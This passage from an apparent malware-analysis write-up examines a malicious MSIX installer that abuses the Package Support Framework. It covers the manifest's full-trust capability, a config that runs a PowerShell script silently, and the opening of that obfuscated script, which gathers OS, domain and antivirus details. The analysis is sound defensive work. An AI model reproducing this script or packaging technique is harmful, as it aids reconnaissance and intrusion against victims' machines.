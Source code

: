 ![msix4](https://github.com/user-attachments/assets/8657d334-40b2-44bd-bce6-6fddaa93548f)

- In this example, the packaged msix does not contain the target application being installed (it was probably omitted by the original poster) but, it utilizes the Package Support Framework. We can see the psflauncher and the necessary DLLs to ensure its correct functionality. So we know that the malware is going to be executing a script when it is installed on a system.

- 4 files are of interest to us:

  1.  AppxManifest
  2.  Config.json
  3.  StartingScriptWrapper
  4.  usJzY The Target Script

### AppxManifest

- I highlighted 2 important sections here. The properties and the applications section.

![msix5](https://github.com/user-attachments/assets/13fdc262-1d82-4e06-a7a9-b6b35aa1d40c)

- The `properties` section contains details identifying the application such as the name, description and the logo that the app uses.
- In the `applications` section, we can see the PSF executable being launched. There is also a notepad shortcut being created in the common programs folder.
- The `Capabilities section` is used to specify system capabilities that the application requires in order to grant it access to some system resources and functionalities. Our malware is requesting full trust/unrestricted access to system resources via the `runFullTrust` capability.

### Config.json

- This is where things start to get interesting. We can see the various parameters being used in the configuration

![msix6](https://github.com/user-attachments/assets/07e29470-cc18-4176-be78-c66130ff22a5)

1. The PSF executable will be launched.
2. `scriptExecutionMode` has been set to `RemoteSigned`, which allows scripts that are downloaded from the internet to run if signed by a trusted publisher.
3. The `start script` section defines usJzY.ps1 as the script that will be executed at the start.
4. `showWindow` has been set to `false`, meaning the powershell script will run in the background without invoking the command window.

### StartingScriptWrapper

- The `StartingScriptWrapper` is required by the PSF to be able to run the target script. The file below is included by default without any special modifications.

![msix7](https://github.com/user-attachments/assets/7ccdd0c6-1211-45f7-9598-de608f6c0d31)

### usJzY The Target Script

- Finally, we have the target script that is being executed by PSF.

```s
$udGXjGVXGXbtYwiRfqjVk = Start-Job -ScriptBlock {
    $SyXSoDNGGAhAAe = (Get-WmiObject -Class Win32_OperatingSystem).Caption
    $Cg = '25'
    $BmeBoy = '39b24536-f33f-48ee-9d63-4723e42e16f9'
    $hr = [System.Net.WebUtility]::UrlEncode($SyXSoDNGGAhAAe)
    $hhowUyysZxUVhmaQelBiPDRiUn = Get-WmiObject Win32_ComputerSystem | Select-Object -ExpandProperty Domain
    $LhvJgxbikeJRfx = Get-WmiObject -Namespace "root\SecurityCenter2" -Class AntiVirusProduct
    $JDJDUfKZAfHGJBoPloDnifXiw = $LhvJgxbikeJRfx | ForEach-Object {
        $_.displayName
    }
    $mYoLehsZuDcJpwtZYnRgAIIgo = $JDJDUfKZAfHGJBoPloDnifXiw -join ", "
```